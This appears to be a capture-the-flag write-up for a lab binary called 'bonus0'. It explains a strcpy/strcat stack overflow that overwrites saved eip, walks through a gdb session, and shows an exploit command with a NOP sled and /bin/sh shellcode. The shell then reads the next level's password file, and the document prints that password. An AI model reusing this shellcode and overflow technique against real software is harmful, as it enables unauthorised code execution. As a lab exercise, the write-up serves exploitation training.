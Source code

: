 When analyzing the binary with gdb, we find that we cannot overflow the read buffer because it tries to dereference the return value of `strchr` on a \n (which causes an unexploitable segmentation fault). \

But this huge buffer in the stack in the `p` function tells us we can easily put a shellcode in there and try to jump on it. But how ? \

The binary does a strcpy of the 20 first chars of the first read. But if our read is 20 characters long, the buffer wont contain a 0 at then end, and the strcpy will copy more than it should (it will copy the buffer 2 too). \
Then it writes a space character on one byte, and strcat the second string on the result. The `eip` of main is located a few bytes after the main buffer. As we can write around 20 bytes after the end of the main buffer, we can override the eip to jump to our desired location in the stack. \

Let's see how we did this:
```shell
$ # we must unset LINES and COLUMNS from the environment to make the process easier when executing in the shell
(gdb) disas p

$ # we break just after the read
(gdb) b *p+50

(gdb) r < <(python -c 'print "\x90"*100 + "AAAA"'; python -c 'print "CCCC"*5')

(gdb) x/48wx $esp
0xbfffe650:	0x00000000	0xbfffe660	0x00001000	0x00000000
0xbfffe660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe680:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe690:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6c0:	0x90909090	0x41414141	0x0000000a	0x00000000
                        |_ where the shellcode will be inserted

(gdb) quit

bash$ # the shellcode must keep stdin open so we chose one that does it
bash$ # we take an address a little before so we are sure it gets executed properly (NOP instructions)
bash$ # the last byte is first because the insertion of the space will cause the data to be moved 1 byte to the right
bash$ ./bonus0 < <(python -c 'print "\x90"*100 + "\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' ; python -c 'print "\xbf\xb0\xe6\xff"*5')
 -
 -
������������������������������������������ ����������������������
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

